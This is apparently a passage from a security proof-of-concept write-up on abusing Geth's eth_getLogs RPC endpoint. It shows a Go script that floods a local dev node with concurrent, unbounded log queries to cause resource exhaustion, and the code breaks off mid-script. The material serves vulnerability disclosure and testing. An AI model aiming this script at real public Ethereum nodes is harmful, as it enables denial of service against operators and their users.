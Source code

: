 **Components:**

1. **Target Ethereum Node:** A local Geth development node is suitable for this PoC. It can be started with:
`geth --dev --http --http.api eth,net,web3 --verbosity 3`
The `-http` flag enables the HTTP-RPC server, and `-http.api` specifies the enabled API modules. `-verbosity 3` provides a moderate level of logging. For a more impactful PoC on a node with actual data, one might target a testnet node, but a dev node is safer and sufficient to show resource spikes. Ensure some transactions have occurred on the dev node to generate logs (e.g., by deploying a simple contract and calling its methods, or by simply transferring Ether between accounts).
2. **Golang Attack Script:** A Go program utilizing the `github.com/ethereum/go-ethereum/ethclient` library to send abusive `eth_getLogs` requests.

**PoC Script (Golang):**

```Go

package main

import (
	"context"
	"fmt"
	"log"
	"math/big"
	"sync"
	"time"

	"github.com/ethereum/go-ethereum"
	"github.com/ethereum/go-ethereum/ethclient"
)

const (
	rpcEndpointDev = "http://localhost:8545" // Target local Geth dev node
	numGoroutines  = 50                     // Number of concurrent attacking goroutines
	requestsPerGR  = 20                     // Number of eth_getLogs requests each goroutine will send
	attackDuration = 30 * time.Second        // How long the PoC should run
)

// attackWorker sends abusive eth_getLogs requests
func attackWorker(client *ethclient.Client, wg *sync.WaitGroup, id int, stopSignal <-chan struct{}) {
	defer wg.Done()
	log.Printf("Worker %d: Started\n", id)

	for i := 0; ; i++ {
		select {
		case <-stopSignal:
			log.Printf("Worker %d: Stopping.\n", id)
			return
		default:
			// Query parameters designed to be resource-intensive
			// On a dev node, block ranges are small initially.
			// For a more impactful query against a dev node, ensure some blocks are mined.
			// Querying block 0 to a small number like 100 repeatedly can still show effect.
			query := ethereum.FilterQuery{
				FromBlock: big.NewInt(0),
				ToBlock:   nil, // Queries up to the latest block
				// No specific address or topics to maximize scan scope
			}

			// VULNERABLE: Using context.Background() - no timeout from client.
			// If the node is overloaded, this call will hang.
			ctx := context.Background()
			// To demonstrate client-side timeout, one could use:
```